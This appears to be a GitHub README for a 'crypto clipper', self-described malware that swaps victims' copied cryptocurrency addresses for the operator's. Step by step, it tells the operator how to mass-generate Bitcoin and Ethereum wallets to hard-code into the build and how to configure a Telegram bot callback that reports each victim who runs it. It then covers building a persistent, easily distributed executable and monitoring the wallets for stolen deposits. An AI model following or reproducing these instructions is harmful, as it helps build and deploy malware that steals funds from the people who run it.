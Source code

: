 1)  MASS GENERATE BITCOIN AND ETHEREUM WALLETS:

To get started, generate your own Bitcoin and Ethereum addresses along with their private keys.

Generating a large number of addresses is not recommended as more processing power is required when a copy is performed

Generating 1000 addresses therefore recommended:


![img1](https://github.com/btc-stealer/crypto-clipper/assets/150532647/b5ca389e-9189-49bd-8da1-97e6711a4a3a)


Currently, there are three Bitcoin address formats in use:

P2PKH (address starts with the number “1”) Example: 13fkMoW9Eysnj1tsy5pBwtuLXSQFjB4nYB

P2SH (address starts with the number “3”) Example: 34DWSKppFs6M2LLm4yifNudhqoqRvtGD5K

Bech32 (address starts with “bc1”) Example: bc1q096nnx5k4cm4qredeva0748ud4ea08qzp9kpkv

Ethereum addresses are represented as a string of 40 hexadecimal characters (0-9, a-f) and start with "0x". For example: 0x742d35Cc6634C0532925a3b844Bc454e4438f44e

Wallets for Ethereum and all 3 Bitcoin address formats will be generated and can be found in the folder called “Wallets”

![img2](https://github.com/btc-stealer/crypto-clipper/assets/150532647/05ebd643-4b94-4572-b9cd-5002c10bdb8e)




It is recommended that you back up the addresses and private key pairs in this folder. If funds are deposited into one of these wallets, the private key will be required to gain accesses to the funds.

Note: If you don't want to use our wallet generator and prefer to use your own wallet addresses, there is a "config.txt" file in the "tls" folder. Before building the malware, open the config.txt file and replace the default wallet addresses with your own addresses in the same format.



2)ADD YOUR TELEGRAM API TO MALWARE (OPTIONAL)

To use Telegram API with the malware, you can add your Telegram API credentials to the config.txt file. This will enable the malware to send a message to your Telegram bot whenever a new user runs the program. However, adding the Telegram API is optional and not necessary for the malware to function.

To create your api, on your Telegram application (either on your mobile or desktop), search for the BotFather account (make sure to use the verified one):


![img9](https://github.com/btc-stealer/crypto-clipper/assets/150532647/f1a4195d-40dc-4a5b-a4c0-a041202c456a)



Next, follow these steps:
Click the Start button on the bottom of the screen.
Type /newbot and click Enter
Then choose a name for the bot.

![img10](https://github.com/btc-stealer/crypto-clipper/assets/150532647/d1f01161-3f94-4161-a4ee-9292abf945f5)


And, finally, pick a user name (note this must be unique).

![img11](https://github.com/btc-stealer/crypto-clipper/assets/150532647/929c055a-0a2f-4349-8e41-acd1d0e1a2f1)


Then you need to get your unique Telegram id. Start this bot:

https://t.me/raw_data_bot

It will give you, your unique id.

![img12](https://github.com/btc-stealer/crypto-clipper/assets/150532647/ff77db37-6811-4719-bb62-f9d4ab8b64e6)

Start the bot that you created with BotFather.


You need to create a URL with the following format


https://api.telegram.org/bot[BOT_API_TOKEN]/sendMessage?chat_id=[YOUR_ID]


·  Replace [BOT_API_TOKEN] with the token generated by BotFather when you created your bot.

·  Replace [YOUR_ID] with your unique ID.


Finally, open the TLS folder and then open config.txt. Add your URL after the wallet addresses. (You must add your URL after generating your wallets and before building the malware.)

![img13](https://github.com/btc-stealer/crypto-clipper/assets/150532647/f2348d50-c601-4013-95f6-781d0d591e0e)

Then build the malware. As soon as a new user runs the malware, it will send you a message saying, "User <user's unique ID> ran the malware."


3)BUILD THE CRYPTO CLIPPER STANDALONE EXECUTABLE FILE

- Your generated Bitcoin and Ethereum addresses will be hard-coded into a new executable file called output.exe.

- The malware is self-contained and does not require any external dependencies to run, making it easy to distribute and execute.

- Even if the victim attempts to remove the malware or restart their system, the malware is designed to persist and continue running.

- Test the malware on a virtual machine.


![img4](https://github.com/btc-stealer/crypto-clipper/assets/150532647/7140a266-4b04-4855-9c40-4e354be08ad6)



4)MONITOR YOUR WALLETS

To check the balance of your Bitcoin addresses, I highly recommend using Electrum wallet. However, you are free to use any wallet of your choice. If you have a cryptocurrency wallet that supports multiple addresses, you can import all of your addresses and check their balances in one place. For example, the Exodus wallet supports both Bitcoin and Ethereum, and allows you to import multiple addresses.

To use Electrum:

1_ Download Electrum from their website: https://electrum.org/#download

2_ Install and open the program

3_ Create a new wallet

4_ Select Import Bitcoin addresses or private keys

![img5](https://github.com/btc-stealer/crypto-clipper/assets/150532647/1d2125d4-7e14-4826-93ac-2a9ad449b8dc)

5_ Import all of your Bitcoin addresses into the field:


![Img6](https://github.com/btc-stealer/crypto-clipper/assets/150532647/eb08da1d-90b4-4805-8609-22ccfc5f6278)


6_ Add a password for your wallet or leave it blank and click “Next.”

7_ There you go! You have created a watchlist that will check the balance of all the addresses frequently. Once one of your Bitcoin addresses receives a deposit, you can import the private key of that particular address.

![img7](https://github.com/btc-stealer/crypto-clipper/assets/150532647/791c958a-b749-43d9-9573-dfb2e9c14778)

To check your Ethereum addresses you can use:

https://cointool.app/batchCheckBalance/eth

![img8](https://github.com/btc-stealer/crypto-clipper/assets/150532647/902f28d3-e203-447a-8a65-9d0f884d1892)

